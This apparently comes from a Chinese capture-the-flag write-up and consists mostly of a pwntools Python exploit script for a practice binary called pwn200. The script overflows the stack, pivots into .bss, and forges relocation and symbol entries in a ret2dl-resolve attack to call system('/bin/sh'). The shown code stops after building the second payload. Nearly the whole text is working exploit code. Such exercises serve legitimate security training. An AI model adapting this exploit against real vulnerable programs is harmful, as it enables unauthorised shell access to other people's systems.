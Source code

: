 ```python
```



最终 exp：

```python
#!/bin/python3
from pwn import *

elf = ELF('./pwn200')
offset = 0x6c+4
read_plt = elf.plt['read']
write_plt = elf.plt['write']

ppp_ret = 0x0804856c
pop_ebp_ret = 0x08048453
leave_ret = 0x08048481

stack_size = 0x800
bss_addr = 0x804a020
base_stage = bss_addr + stack_size

p = process('./pwn200')
p.recvuntil('\n')
payload  = b'a'*offset
payload += p32(read_plt)
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret)
payload += p32(base_stage)
payload += p32(leave_ret)

p.sendline(payload)

cmd = b"/bin/sh"
plt_0 = 0x8048370
rel_plt = 0x8048318
index_offset = (base_stage + 0x1c) - rel_plt
write_got = elf.got['write']

dynsym = 0x80481d8
dynstr = 0x8048268
fake_sym_addr = base_stage + 0x24
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (int(index_dynsym) << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2  = b'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += b'AAAA'
payload2 += p32(base_stage + 80)
payload2 += b'AAAA'
payload2 += b'AAAA'
payload2 += fake_reloc
payload2 += b'B' * align
payload2 += fake_sym
payload2 += b"system\x00"
```